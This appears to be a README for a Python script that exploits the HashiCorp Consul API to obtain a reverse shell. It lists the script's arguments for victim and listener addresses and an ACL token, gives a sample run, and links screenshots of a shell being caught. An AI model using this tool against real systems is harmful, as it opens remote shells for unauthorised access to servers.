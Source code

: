 ## This exploit helps you to get a reverse shell, exploiting the Hashicorp-Consul service via API, not using tools like metasploit

· When executing the script with python3 it asks us for a series of parameters
    
    - rhost: remote host (ip of the victim machine)
    - rport: remote port (port used by the consul api, by default this service always uses 8500)
    - lhost: local host (local ip of the interface where we will receive the shell)
    - lport: local port (port where we will be waiting for the shell with a listener like netcat)
    - acl_token: token needed for authentication against the api using it as header

<img src="https://raw.githubusercontent.com/GatoGamer1155/imagenes-repositorios/main/exploit1.png">


· If we have what is necessary, we can give it the arguments and run it, example:

    python3 exploit.py 127.0.0.1 8500 10.10.14.29 443 bb03b43b-1d81-d62b-24b5-39540ee469b5


· When executing the script with its arguments we should see a message with a + which indicates that the request has been sent correctly

<img src="https://raw.githubusercontent.com/GatoGamer1155/imagenes-repositorios/main/exploit2.png">


· Checking your listener, in a couple of seconds you should get a shell as the user running the service

<img src="https://raw.githubusercontent.com/GatoGamer1155/imagenes-repositorios/main/exploit3.png">


· In case it detects that it cannot connect to the host, it will give a message, check the port is exposed and use port forwarding if necessary, then try again

<img src="https://raw.githubusercontent.com/GatoGamer1155/imagenes-repositorios/main/exploit4.png">
